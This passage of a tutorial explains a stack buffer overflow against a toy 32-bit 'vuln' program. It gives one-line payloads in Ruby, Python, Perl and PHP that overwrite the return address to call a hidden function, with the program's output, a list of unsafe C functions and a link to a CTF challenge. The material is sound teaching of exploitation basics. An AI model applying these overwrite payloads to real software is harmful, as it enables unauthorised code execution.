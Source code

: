 _Note: Registers are 4 bytes or 32 bits as the binary is compiled for a 32 bit system._

The address of the `secretFunction` is `0804849d` in hex. Now depending on whether our machine is little-endian or big-endian we need to decide the proper format of the address to be put. For a little-endian machine we need to put the bytes in the reverse order. i.e. `9d 84 04 08`. The following scripts generate such payloads on the terminal. Use whichever language you prefer to:

    ruby -e 'print "a"*32 + "\x9d\x84\x04\x08"'

    python -c 'print "a"*32 + "\x9d\x84\x04\x08"'

    perl -e 'print "a"x32 . "\x9d\x84\x04\x08"'

    php -r 'echo str_repeat("a",32) . "\x9d\x84\x04\x08";'

_Note: we print \\x9d because 9d was in hex_

You can pipe this payload directly into the `vuln` binary.

    ruby -e 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln

    python -c 'print "a"*32 + "\x9d\x84\x04\x08"' | ./vuln

    perl -e 'print "a"x32 . "\x9d\x84\x04\x08"' | ./vuln

    php -r 'echo str_repeat("a",32) . "\x9d\x84\x04\x08";' | ./vuln

This is the output that I get:

    Enter some text:
    You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<rubbish 3 bytes>
    Congratulations!
    You have entered in the secret function!
    Illegal instruction (core dumped)

Cool! we were able to overflow the buffer and modify the return address. The `secretFunction` got called.  But this did foul up the stack as the program expected `secretFunction` to be present.

> ### What all C functions are vulnerable to Buffer Overflow Exploit?

1. gets
2. scanf
3. sprintf
4. strcpy

Whenever you are using buffers, be careful about their maximum length. Handle them appropriately.

> ### What next?

While managing [BackdoorCTF](https://backdoor.sdslabs.co/) I devised a simple challenge based on this vulnerability. [Here](https://backdoor.sdslabs.co/challenges/ECHO). See if you can solve it!